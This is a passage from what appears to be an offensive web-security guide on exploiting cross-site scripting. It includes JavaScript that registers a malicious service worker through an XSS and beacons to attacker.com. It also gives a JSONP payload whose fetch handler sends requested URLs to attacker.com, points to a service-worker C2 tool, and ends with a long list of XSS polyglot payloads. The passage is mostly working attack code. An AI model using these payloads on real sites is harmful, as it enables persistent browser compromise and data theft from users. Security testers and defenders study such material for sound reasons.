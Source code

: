 And this is the code that will **register the worker** \(the code you should be able to execute abusing a **XSS**\). In this case a **GET** request will be sent to the **attackers** server **notifying** if the **registration** of the service worker was successful or not:

```javascript
<script>
window.addEventListener('load', function() {
var sw = "/uploaded/ws_js.js";
navigator.serviceWorker.register(sw, {scope: '/'})
  .then(function(registration) {
    var xhttp2 = new XMLHttpRequest();
    xhttp2.open("GET", "https://attacker.com/SW/success", true);
    xhttp2.send();
  }, function (err) {
    var xhttp2 = new XMLHttpRequest();
    xhttp2.open("GET", "https://attacker.com/SW/error", true);
    xhttp2.send();
  });
});
</script>
```

In case of abusing a vulnerable JSONP endpoint you should put the value inside `var sw`. For example:

```javascript
var sw = "/jsonp?callback=onfetch=function(e){ e.respondWith(caches.match(e.request).then(function(response){ fetch('https://attacker.com/fetch_url/' + e.request.url) }) )}//";
```

There is **C2** dedicated to the **exploitation of Service Workers** called [**Shadow Workers**](https://shadow-workers.github.io/) that will be very useful to abuse these vulnerabilities.

### Polyglots

```javascript
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm( 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
javascript://'/</title></style></textarea></script>--><p" onclick=alert()//>*/alert()/*
javascript://--></script></title></style>"/</textarea>*/<alert()/*' onclick=alert()//>a
javascript://</title>"/</script></style></textarea/-->*/<alert()/*' onclick=alert()//>/
javascript://</title></style></textarea>--></script><a"//' onclick=alert()//>*/alert()/*
javascript://'//" --></textarea></style></script></title><b onclick= alert()//>*/alert()/*
javascript://</title></textarea></style></script --><li '//" '*/alert()/*', onclick=alert()//
javascript:alert()//--></script></textarea></style></title><a"//' onclick=alert()//>*/alert()/*
--></script></title></style>"/</textarea><a' onclick=alert()//>*/alert()/*
/</title/'/</style/</script/</textarea/--><p" onclick=alert()//>*/alert()/*
javascript://--></title></style></textarea></script><svg "//' onclick=alert()//
/</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
-->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
<svg%0Ao%00nload=%09((pro\u006dpt))()//
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*<svg/*/onload=alert()//>
javascript:"/*'/*`/*\" /*</title></style></textarea></noscript></noembed></template></script/--><svg/onload=/*<html/*/onmouseover=alert()//>
javascript:"/*\"/*`/*' /*</template></textarea></noembed></noscript></title></style></script>--><svg onload=/*<html/*/onmouseover=alert()//>
```